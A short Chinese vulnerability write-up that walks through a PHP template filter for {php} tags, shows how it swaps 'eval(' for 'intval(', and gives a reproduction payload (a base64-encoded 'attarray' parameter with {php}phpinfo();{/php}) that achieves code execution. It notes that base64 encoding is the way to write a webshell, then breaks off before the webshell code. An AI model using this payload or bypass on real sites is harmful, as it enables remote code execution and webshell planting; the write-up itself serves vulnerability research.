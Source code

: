 4 Line: 将模板中php短标签转换为
21 Line: 判断传入的$content中是否包含了{php}
22 Line: 使用正则表达式匹配出$content中所有包含了“{php}任意内容{/php}”的标签
23 Line: 使用三目运算符判断匹配出来的数组中的第0个元素是否有值，如果有值那么将第0个元素的值赋给$matchs否则将空数组赋给$matchs
24 Line: 判断$matchs不为空
25 Line: 将$matchs使用foreach循环遍历
26 Line: 将$val中的“{/任意空白字符php}”替换为空并赋给$valnew
27 Line: 将$valnew中的“多个或零个0-9A-Za-Z_eval(”替换为“intval(”
28 Line: 将$valnew中的“开始为eval任意空白字符(”替换为“intval(”
29 Line: 将字符串“{php}{$valNew}{/php}”赋给$valnew
30 Line: 将$content中的$val替换为$valNew

### 漏洞复现

```
Payload:attarray=eyJ7cGhwfXBocGluZm8oKTt7XC9waHB9Ijoie3BocH1waHBpbmZvKCk7e1wvcGhwfSJ9&html={php}phpinfo();{/php} 
```

![image](../img/cf4b918c9d8f67d6a49fbfc4a6cfaa22.png)

Payload生成方式:

```
base64_encode(jsonstring) 
```

eval会被替换成intval，所以我们采用base64加密写入webshell的方式
php代码如下：
